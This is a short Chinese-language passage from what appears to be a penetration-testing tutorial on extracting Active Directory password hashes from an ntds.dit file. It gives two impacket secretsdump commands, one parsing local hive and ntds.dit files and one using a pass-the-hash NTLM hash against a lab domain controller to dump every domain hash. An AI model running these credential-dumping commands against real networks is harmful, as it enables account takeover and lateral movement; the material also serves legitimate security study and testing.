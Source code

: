 ## NDTS Hash

### Impacket

我们可以使用 impacket 工具包中的 secretsdump 来解析 ntds.dit 文件并导出散列：

```bash
./secretsdump.py -system /root/system.hive  -ntds /root/ntds.dit LOCAL
```

[![](assets/1706090550-5353b58305954e421ed579c5b1bb41b7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124100114-748765ce-ba5c-1.png)  
impacket 还可以直接通过用户名和散列值进行验证，从远程域控制器中读取 ntds.dit 并转储域散列值：

```bash
./secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:41945356c1b2adde08c00d0e48515b7e -just-dc hacke.testlab/administrator@192.168.188.2
```

[![](assets/1706090550-bbbf8aa27b33d3ff81ef65a8c43ed738.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124100138-829f8b5a-ba5c-1.png)
